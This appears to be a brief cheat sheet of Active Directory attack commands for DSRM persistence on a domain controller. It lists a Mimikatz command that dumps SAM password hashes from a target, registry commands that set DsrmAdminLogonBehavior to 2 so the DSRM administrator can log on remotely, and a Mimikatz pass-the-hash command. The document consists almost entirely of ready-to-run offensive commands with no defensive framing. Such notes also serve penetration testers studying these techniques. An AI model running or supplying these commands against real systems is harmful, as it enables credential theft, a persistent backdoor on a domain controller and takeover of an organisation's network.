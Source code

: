 # DSRM

**Dump DSRM password - dumps local users**

look for the local administrator password

```
Invoke-Mimikatz -Command ‘”token::elevate” “lsadump::sam”’ -Computername <target>
```

**Change login behavior for the local admin on the DC**

```
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
```

**If property already exists**

```
Set-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2
```

**Pass the hash for local admin**

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<computer> /user:Administrator /ntlm:<hash> /run:powershell.exe"'
```
